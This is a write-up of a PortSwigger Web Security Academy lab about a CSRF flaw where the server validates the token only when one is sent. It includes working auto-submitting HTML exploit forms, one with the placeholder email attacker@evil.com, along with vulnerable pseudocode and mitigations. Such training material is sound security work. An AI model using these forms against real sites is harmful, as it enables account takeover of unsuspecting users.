

# Lab 03: CSRF Where Token Validation Depends on Token Being Present

> **Topic**: CSRF Vulnerabilities
> **Lab Number**: 03
> **Platform**: PortSwigger Web Security Academy

## Category
CSRF — Token Bypass via Token Omission

## Vulnerability Summary
This lab implements CSRF token validation, but only when the token is actually present in the request. If the `csrf` parameter is removed entirely from the POST body, the server skips validation and processes the request anyway. The exploit simply omits the token field — no valid token required.

## Attack Methodology

### Step 1: Recon
Logged in with the provided credentials and navigated to the account page. Found an Update Email form that submits via POST with a CSRF token:

```
POST /my-account/change-email HTTP/2
Host: 0af6001304a9d7a980ac3085000e0015.web-security-academy.net
Cookie: session=MhwIrYRZPXnq9xFapHGkGogcxidEP4NR
Content-Length: 30

email=test%40test.com&csrf=<token>
```

Generated a CSRF PoC using Burp Suite Pro:
> Right-click the POST request → Engagement tools → Generate CSRF PoC

### Step 2: Understanding the Filter
Tested sending the POST with a wrong/modified token — server rejects it. The token validation is active when a token is present.

**Hypothesis**: The server checks `if token present → validate`. If the token field is absent entirely, the condition is never entered and the request goes through unchecked.

### Step 3: Removing the Token Entirely
Modified the CSRF PoC by removing the `csrf` hidden input field completely:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af6001304a9d7a980ac3085000e0015.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

No `csrf` parameter at all. The form auto-submits on page load.

### Step 4: Delivering the Exploit
- Pasted the PoC into the Exploit Server body
- Clicked **Store** then **View exploit** to confirm it worked on own session (email changed → 302 redirect to `/my-account?id=wiener`)
- Clicked **Deliver exploit to victim**

### Step 5: Results
Burp Repeater confirmed:

```
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Email change accepted with zero CSRF token.

### Lab Solved



Lab marked as **Solved** — "Congratulations, you solved the lab!"

## Technical Root Cause

```python
# ❌ Vulnerable implementation (pseudocode)
token = request.POST.get('csrf')
if token:                          # Only validates IF token exists
    validate_csrf_token(token)
process_email_change(request)      # Runs regardless
```

The validation is gated on the token's presence. An attacker simply never sends the token — the `if` block is skipped entirely and the business logic executes.

### Why This Works

| Scenario | Token Present | Token Validated | Request Processed |
|----------|--------------|-----------------|-------------------|
| Legitimate user | ✅ Yes | ✅ Yes | ✅ Yes |
| Attacker with wrong token | ✅ Yes | ❌ Fails | ❌ Blocked |
| Attacker with no token | ❌ No | ⏭️ Skipped | ✅ Yes — **vulnerable** |

## Impact
- **Account Takeover (partial)**: Attacker changes victim's email without any token
- **Password Reset Chain**: Changed email → attacker requests password reset → full account takeover
- **No User Interaction Beyond Page Visit**: Victim only needs to load the exploit page
- **Bypasses Existing CSRF Defense**: The token mechanism exists but is completely ineffective

## Proof of Concept

**Minimal (no token)**
```html
<form action="https://TARGET/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="attacker@evil.com" />
</form>
<script>document.forms[0].submit();</script>
```

**Full Exploit (as used)**
```html
<html>
  <body>
    <form action="https://0af6001304a9d7a980ac3085000e0015.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="ctf-player@piocctf.org" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Key Takeaways
1. **Absence of Token ≠ Safe**: A missing token must be treated as invalid, not ignored. Many developers write `if token: validate(token)` — this is the exact flaw exploited here.
2. **Always Try Removing the Token**: After testing a wrong token, immediately try removing it entirely. Two different bypass vectors, one-second test each.
3. **Token Presence is Not Validation**: The server must assert the token exists AND is correct. Checking only one condition leaves a gap.
4. **Burp PoC is a Starting Point**: The generated PoC includes the token by default. Manually delete it and test — the tool won't do this for you.
5. **302 = Success**: A redirect to the account page confirms the action was accepted server-side.

## Mitigation

### 1. Require Token Presence AND Validity
```python
# ❌ Vulnerable - skips validation if token absent
token = request.POST.get('csrf')
if token:
    validate_csrf_token(token)

# ✅ Secure - rejects if token missing or invalid
token = request.POST.get('csrf')
if not token or not validate_csrf_token(token):
    return HttpResponseForbidden('Invalid or missing CSRF token')
```

### 2. Use Framework-Level CSRF Middleware
```python
# Django - applied globally, handles presence + validity
MIDDLEWARE = [
    'django.middleware.csrf.CsrfViewMiddleware',
    ...
]
```

### 3. SameSite Cookie Attribute
```http
Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly
```

### 4. Double Submit Cookie Pattern
```javascript
// Token must be in both cookie and request body
// Server validates they match — missing token = mismatch = rejected
```

## References
- [PortSwigger CSRF Lab - Token Depends on Token Being Present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, CSRF PoC Generator)
- Chromium
- PortSwigger Exploit Server

---

*Lab completed on: 2026-04-16*
*Writeup by vibhxr*
